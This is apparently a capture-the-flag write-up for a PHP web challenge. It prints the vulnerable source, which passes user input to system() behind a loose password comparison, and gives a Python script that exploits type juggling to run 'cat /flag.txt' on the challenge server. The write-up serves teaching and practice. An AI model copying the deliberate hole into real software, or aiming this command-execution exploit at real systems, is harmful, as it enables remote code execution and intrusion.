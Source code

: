 # Never gonna tell a lie and type you

> <p>todo</p>
> <p><a href="attachments/never-gonna-tell-a-lie-and-type-you.tar.gz">never-gonna-tell-a-lie-and-type-you.tar.gz</a></p>

## Path to Flag

We are given a php file

```
<?php
       ini_set("display_errors",1);
       error_reporting(E_ALL);
//we tought about using passwords but you see everyone says they are insecure thus we came up with our own riddle.
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;
    
}
//this weird http parameter handling is old we use json 
$user_input = json_decode($_POST["data"]); 
//attention handling user data is dangerous
var_dump($user_input);

if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
    if($user_input->{'user'} === "admin🤠") {
        if ($user_input->{'password'} == securePassword($user_input->{'password'})  ){
            echo " hail admin what can I get you ". system($user_input->{"command"});
        }
        else {
            die("Skill issue? Maybe you just try  again?");
        }}
        else {
            echo "<html>";
            echo "<body>";
            echo "<h1>Welcome [to innovative Web Startup]</h1>";
            echo "<p> here we focus on the core values of each website. The backbone that carries the entire frontend</p><br><br>";
            echo "<blink>For this we only use old and trusty tools that are well documented and well tested</blink><br><br>";
            echo "<Big>That is not to say that we are not innovative, our authenticators are ahead of their time.</Big><br><br>";
           echo "<plaintext> to give you an teaser of our skills look at this example of commissioned work we build in a past project </plaintext>"; 
            
            echo system("fortune")."<br>";
        }
?>
```

The security issue here is that it doesn't use `===` for the password. Hence, we can manipulate the data type for the input (type juggling), I scripted to solve this chall.

```
#!/usr/bin/env python3

import requests
import json
import hashlib

def secure_password(user_secret):
    if user_secret < 10000:
        raise ValueError("nope don't cheat")
    md5_hash = hashlib.md5(str(user_secret).encode()).hexdigest()
    
    o = int(md5_hash[:7], 16) * 123981337
    
    return user_secret * o

url = 'https://die-nacht-von-freitag-auf-montag--peter-wackel-6643.ctf.kitctf.de/'

headers = {
    'User-Agent': 'friendlyHuman',
    'Content-Type': 'application/x-www-form-urlencoded'
}

json_data = {
    'user': 'admin🤠',
    'password': True, 
    'command': 'cat /flag.txt' 
}

json_data_str = json.dumps(json_data)
data = {'data': json_data_str}
response = requests.post(url, data=data, headers=headers)

if response.status_code == 200:
    print("POST request successful!")
    print(response.text)
else:
    print(f"POST request failed with status code: {response.status_code}")
    print("Response content:", response.text)
```

<img src="attachments/flag.png">

`GPNCTF{1_4M_50_C0NFU53D_R1GHT_N0W}`